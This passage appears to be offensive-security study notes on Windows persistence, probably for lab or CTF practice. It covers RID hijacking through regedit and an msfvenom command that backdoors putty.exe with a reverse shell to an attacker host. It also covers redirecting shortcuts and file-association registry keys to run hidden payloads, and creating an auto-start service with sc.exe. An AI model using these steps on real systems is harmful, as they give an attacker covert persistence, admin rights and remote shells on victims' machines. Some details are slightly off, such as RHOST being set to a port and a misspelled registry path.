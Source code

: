 ```
C:\> wmic useraccount get name, sid      # List names and SIDs which include RIDs -  Record yours and admin's
C:\> psexec.exe -i -s regedit            # Open regedit in GUI
```
Convert your RID into hex. Find RID in regedit (note, little-endian representation so hex value of D629 is 29D6). Replace bytes with admin RID. Log into machine.


## File Backdooring

### Executables

Modify the executable .exe files using `msfvenom`. E.g. modify PuTTY such that it still functions as regular PuTTY would, but also executes a silent payload in the background to send reverse shell or some other action.

Achieved by:
- `msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp LHOST=<ATTACK_IP> RHOST=<ATTACK_PORT> -b "\x00" -f exe -o puttyX.exe`
- `puttyX.exe` is the infected file.

### Shortcuts

Modifying shortcuts themselves is sneakier. Change the executable path it points to so that it points to a malicious executable instead, e.g. a PowerShell script which runs the regular executable as well as a backdoor/reverse shell.

### File Associations

Different file types have different 'file associations'. This describes how they behave when a file of that file type is executed. E.g. when a `.txt` file is opened, it runs a script which opens Notepad. This script can be altered to do same as above: function normally but also silently execute backdoor payload. Can do PowerShell to achieve this. 

This data is stored in `HKLM\Software\Classes` and then look for file type e.g. `HKLM\Software\Classes\.txt` - the  `ProgID` (Programmatic ID: identifier to a program installed on the system) subkey will be listed in the registry editor window (in this case `txtfile`).

Search for this subkey in the same registry editor path (`HKLM\Software\Classes\ttxtfile`) and modify the script there.

Note: the `%1` denotes an argument which is passed at runtime (e.g. the name of a file to be opened by the txtfile program). In PowerShell, this is referred to as `$args[0]`.


## Service Backdooring

### Create

Create service using
```
sc.exe create <service_name> binPath=<execute> start=auto
sc.exe start <service_name>
```
- `<execute>` can be either the path to an executable or an OS command
- remember the executable has to implement a protocol specific to Windows services
- noisy
